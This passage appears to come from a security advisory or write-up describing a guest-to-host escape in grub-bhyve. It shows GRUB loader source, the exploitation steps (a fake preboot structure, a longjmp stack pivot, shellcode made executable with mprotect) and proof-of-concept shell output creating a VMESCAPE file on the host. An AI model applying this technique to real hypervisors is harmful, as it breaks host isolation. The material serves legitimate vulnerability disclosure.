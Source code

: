 ```c
struct grub_preboot
{
  grub_err_t (*preboot_func) (int);
  grub_err_t (*preboot_rest_func) (void);
  grub_loader_preboot_hook_prio_t prio;
  struct grub_preboot *next;
  struct grub_preboot *prev;
};

static int grub_loader_loaded;
static struct grub_preboot *preboots_head = 0,
  *preboots_tail = 0;

. . .

grub_err_t
grub_loader_boot (void)
{
  grub_err_t err = GRUB_ERR_NONE;
  struct grub_preboot *cur;

  if (! grub_loader_loaded)
    return grub_error (GRUB_ERR_NO_KERNEL,
		       N_("you need to load the kernel first"));

  if (grub_loader_flags & GRUB_LOADER_FLAG_NORETURN)
    grub_machine_fini ();

  for (cur = preboots_head; cur; cur = cur->next)
    {
      err = cur->preboot_func (grub_loader_flags);
```

The idea is to modify the `preboots_head` pointer to point to fake `grub_preboot` structure, and then hijack the execution during the call to `cur->preboot_func (grub_loader_flags)`. By overwriting `grub_loader_flags` with a pointer it is also possible to pass an argument to the hijacked function call. In this case, the `grub_preboot` structure was setup to call `longjmp()` with `grub_loader_flags` pointing to a fake `jmp_buf` to perform stack pivot. Then, shellcode already written to .bss segment is made executable using `mprotect()` and executed, which creates a file named VMESCAPE in the host. Finally, grub_reboot() in grub-core/kern/emu/main.c is invoked to cleanly exit grub-bhyve.

```
root@guest:/boot/grub# rm grubenv
root@guest:/boot/grub# grub-editenv grubenv create
root@guest:/boot/grub# grub-editenv grubenv set run_exploit=true
root@guest:/boot/grub# grub-editenv grubenv list
run_exploit=true
root@guest:/boot/grub# reboot
```
```
root@host:/ # vm list 
NAME   DATASTORE  LOADER  CPU  MEMORY  VNC  AUTOSTART  STATE
linux  default    grub    2    512M    -    No         Stopped

root@host:/ # file VMESCAPE
VMESCAPE: empty
```
